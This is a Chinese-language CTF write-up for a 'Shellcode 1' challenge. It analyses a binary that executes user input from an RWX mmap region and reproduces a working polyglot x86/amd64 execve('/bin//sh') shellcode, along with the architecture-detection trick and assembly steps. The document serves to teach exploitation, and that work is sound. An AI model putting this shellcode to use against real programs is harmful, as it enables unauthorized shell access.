 # Shellcode 1

构造一个 Shellcode Payload，同时对 32 位和 64 位机器都工作。

```c
v3 = (void (__fastcall *)(_QWORD, void *))mmap(0LL, 0x1000uLL, 7, 33, 0, 0LL);
```

这段代码是关键的内存映射代码。翻译成人话就是：

```python
v3: ptr[void] = mmap(addr=NULL, length=0x1000, prot=7, flags=33, fd=0, offset=0)
```

`prot == 7` 就是 `PROT_READ | PROT_WRITE | PROT_EXEC`。

> 超豪华！

`flags == 33` 就是 `MAP_ANONYMOUS | MAP_SHARED`。

就和 Signed Shellcoder 做的事情一样——开了一块极具恶意的内存空间，可以执行我们想要的一切。

注意这个语法：

```c
void (__fastcall *buf)(_QWORD, void *);

void *map_ptr = do_mmap();

// fill in the buffer
read(0, map_ptr, 0x1000);

// implicit pointer cast
buf = map_ptr;

// execute it as a function
buf(0, buf);
```

就是直接把输进去的内容执行掉了。

32 位的情况也大同小异；但问题是需要找到一个对两者均有效的 Shellcode。

这篇[文章](https://modexp.wordpress.com/2017/02/20/shellcode-linux-x84/)讲到了如何构造 x86 & amd64 共通的 Shellcode。

> 原作者赐名 x84。

他给出的 Example 是这样的：

```assembly
    ; execve("/bin//sh", NULL, NULL);
x84_execve:
    cdq                 ; envp = NULL
    xor     esi, esi    ; argv = NULL
    push    eax         ; '\0'
    push    eax         ; null space
    push    eax         ; null space
    push    esp
    pop     ebx         ; ebx = "/bin//sh", 0
    push    ebx         ; save pointer to "/bin//sh", 0
    pop     edi         ; rdi = "/bin//sh", 0
    mov     dword[edi+0], '/bin'
    mov     dword[edi+4], '//sh'
    inc     eax
    jnz     x86_execve
    mov     al, 59      ; rax = sys_execve
    syscall
x86_execve:
    xor     ecx, ecx    ; argv = NULL
    mov     al, 11      ; eax  = sys_execve
    int     0x80
```

> 注意，新版的 64 位 Linux 不直接兼容 32 位程序，得装包…

直接用 `gas` 汇编成（没法直接运行的）`a.out`：

```
as payload.asm -msyntax=intel -mnaked-reg --32
```

然后用 `objdump` 弄出其中的 `.data` 区段塞进去就好了。

关键的一点就是：`amd64` 下，`40 75 <offset>` 会被解读成 `rex jne <somewhere>`。

> `rex` 是个无关紧要的前缀。

然而 `i386` 下则会被解读成两条指令：`inc %eax` + `jne <somewhere>`。

这就给我们了操作空间——可以区分 Architecture 的方法。

```assembly
    xor     eax, eax
    test    eax, eax
    inc     eax
    jnz     x32
    <x64_exploit_codes>
x32:
    <x32_exploit_codes>
```

简单的 Prototype 可以写成这样。

> 在拉拉杂杂写了半天汇编（以及遭遇一堆 Gas 错误）之后，发现这里有个现成的：
>
> > http://irfantoor.com/exploits/show/?id=39338
>
> > 一定是因为上 OS 课，写 AArch64 汇编写傻掉了…

